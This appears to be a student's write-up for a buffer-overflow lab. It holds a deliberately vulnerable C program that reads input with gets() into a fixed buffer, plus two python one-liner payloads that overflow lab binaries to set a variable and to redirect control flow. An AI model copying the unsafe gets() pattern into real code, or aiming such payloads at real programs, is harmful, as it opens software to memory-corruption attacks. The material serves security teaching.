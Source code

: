 * Task 1

** Program
#+BEGIN_SRC c
  #include <stdio.h>

  int main(int argc, char **argv)
  {
    int modified;
    char buffer[69];

    printf("Enter whatever you wish:\n");
    modified = 0;
    gets(buffer);

    if(modified == 0x15692119) { // Here, 2119 is the last 4 digits of your ID
        printf("you have correctly got the variable to the right value\n"); // GOAL
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
  }

#+END_SRC

** Payload
#+BEGIN_SRC bash
  python3 -c 'import sys; sys.stdout.buffer.write(b"A"*69 +
  b"\x19\x21\x69\x15")' | ./match_me
#+END_SRC

** Screenshot
[[./screenshots/task-1.png]]

* Task 2

** Payload
#+BEGIN_SRC bash
  python3 -c 'import sys; sys.stdout.buffer.write(b"A"*105 +
  b"\xf5\x96\x04\x08")' | ./change_flow
#+END_SRC

** Screenshot

[[./screenshots/task-2.png]]
